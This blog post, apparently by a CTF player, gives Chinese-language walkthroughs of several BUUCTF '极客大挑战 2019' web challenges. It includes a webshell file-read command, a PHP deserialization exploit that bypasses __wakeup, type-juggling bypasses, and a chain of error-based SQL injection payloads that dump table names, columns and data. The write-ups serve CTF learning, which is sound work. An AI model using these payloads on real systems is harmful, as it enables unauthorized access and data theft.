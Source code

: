 ```yaml
---
title:  buu极客大挑战
date: 2024-10-01 13:25:14
permalink: /pages/8f5e89/
categories:
  - n日一题
author: 
  name: the0n3
  link: https://the0n3.top
---
```


## [极客大挑战 2019]Http

打开页面，查看源码，找到隐藏的php页面的路径，基础的http header做了就给flag

![1](/medias/daily/geek/1.png)

## [极客大挑战 2019]Knife

白给的shell`Syc=system('tac /f*');`


## [极客大挑战 2019]PHP

提示备份，下载www.zip，压缩包里有`class.php`，审计

index.php里包含了class.php，并接收一个select get参数

![2](/medias/daily/geek/2.png)

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

exp

```php
$payload = new Name('admin',100);
echo urlencode(serialize($payload));
```

类里有个`wakeup`魔术方法，尝试修改对象的属性个数绕过，把2改3就可以了

![3](/medias/daily/geek/3.png)

## [极客大挑战 2019]BuyFlag

找到题目路径，访问，查看源码，里面有注释的php代码

三个限制，1.a student from CUIT，2.密码，3.金额

money，password都可以在源码里看到

![4](/medias/daily/geek/4.png)

没有找到`a student from CUIT`相关内容，最后可以通过抓包或者查看网站cookie，找到`user:0`，1就代表`a student from CUIT`

简单的绕过

1.第一层可以用`404a`绕过，他是字符串，和数字比较会自动转换，只保留开头的数字

2.第二层提示长度太长，可以使用科学计数法，`9e9`

![6](/medias/daily/geek/6.png)


## [极客大挑战 2019]HardSQL

参考：[【BUUCTF-[极客大挑战 2019]HardSQL 1详解】](https://www.cnblogs.com/junlebao/p/13836583.html)

报错注入

在sql语法里，可以使用`^`连接字段值和函数，进行异或运算

![7](/medias/daily/geek/7.png)

![8](/medias/daily/geek/8.png)

这里使用`^`拼接变量值和`updatexml`函数，`updatexml`函数会报错，回显出已经执行的结果，通过`updatexml`函数里不允许出现的字符`0x7e`来来让他报错`(updatexml(0x7e,注入语句,0x7e));`

测试，题目过滤了空格，等号，可以用括号绕过空格，用like绕过等号，最后补上注释符`%23`

```sql
?username=admin&password=1'^updatexml(0x7e,(select(version())),0x7e)%23
```

![9](/medias/daily/geek/9.png)

```sql
# 爆表
?username=admin&password=1'^updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like'geek'),0x7e),1)%23
# 爆字段 ~id,username,password~
?username=admin&password=1'^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like"H4rDsq1"),0x7e),1)%23
# 爆数据
?username=admin&password=1'^updatexml(1,concat(0x7e,(select(group_concat(password))from(geek.H4rDsq1)),0x7e),1)%23
```
爆flag，只爆出了一半，用substr函数时截不出来，好像被过滤了，用`right`,`left`代替了

![10](/medias/daily/geek/10.png)


```sql
# 前30位 flag{758142ee-d5c3-4320-8bca-b
?username=admin&password=1'^updatexml(1,concat(0x7e,left((select(group_concat(password))from(geek.H4rDsq1)),30),0x7e),1)%23
# 后30位 e-d5c3-4320-8bca-ba29957a9055}
?username=admin&password=1'^updatexml(1,concat(0x7e,right((select(group_concat(password))from(geek.H4rDsq1)),20),0x7e),1)%23
```